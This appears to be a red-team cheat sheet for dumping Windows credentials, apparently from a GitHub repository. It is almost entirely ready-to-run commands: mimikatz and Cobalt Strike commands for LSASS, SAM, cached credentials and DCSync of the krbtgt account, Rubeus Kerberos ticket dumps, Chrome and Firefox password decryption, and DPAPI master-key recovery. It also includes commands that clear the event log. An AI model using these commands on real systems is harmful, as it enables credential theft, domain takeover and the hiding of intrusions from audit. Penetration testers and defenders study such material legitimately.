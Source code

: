 ### Cobalt Strike
logonpasswords contains msv,tspkg,wdigest,kerberos,ssp,credman,cloudap.
```powershell
mimikatz !event::clear
mimikatz !event::drop
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !sekurlsa::dpapi
mimikatz !sekurlsa::tickets /export
mimikatz !lsadump::sam
mimikatz !lsadump::cache
mimikatz kerberos::list /export
mimikatz kerberos::tgt

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```

### Domain Cached Credentials
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```powershell
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```

### Chrome Credentials
```powershell
https://github.com/djhohnstein/SharpChromium
SharpChromium.exe all > res.txt

https://github.com/ohyicong/decrypt-chrome-passwords
python3 .\decrypt_chrome_password.py > res.txt
```

### Firefox Credentials
```powershell
https://github.com/unode/firefox_decrypt
python3 .\firefox_decrypt.py
```

### DPAPI

#### Enum
```powershell
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
```

#### Dump encrypted credentials (pbData) and the related master key ID (guidMasterKey) 
```powershell
ls -Hidden C:\users\user2\appdata\local\microsoft\credentials\
mimikatz.exe "dpapi::cred /in:C:\users\user2\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit > res1.txt
```

#### Get Master Key File (Encrypted)
```powershell
ls -Hidden C:\users\user2\appdata\roaming\microsoft\protect\<SID>\<MasterKey>
```

#### 1. If the key is cached in LSASS (Admin User)
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > res2.txt
type res2.txt | sls "user name|guid|masterkey"
```

#### 2. Interact with the DC through the MS-BKRP RPC service (Domain User)
```powershell
mimikatz.exe "dpapi::masterkey /in:C:\users\user2\appdata\roaming\microsoft\protect\S-1-5-21-410602843-3916082903-3170366279-1119\7f1985f1-624d-4024-b36d-c0ca6d6b3766 /rpc" exit
```

#### Decrypting
```powershell
mimikatz.exe "dpapi::cred /in:C:\users\hassan\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D /masterkey:d5b953e1efc3890d63921fc7bd816a26c913dcc47df52b8e18b56a466ca0e1bd486fd6c9b93d31105af1c84ab7ceba1e00216d99e2601c058bdc6af3a00860d0" exit
```
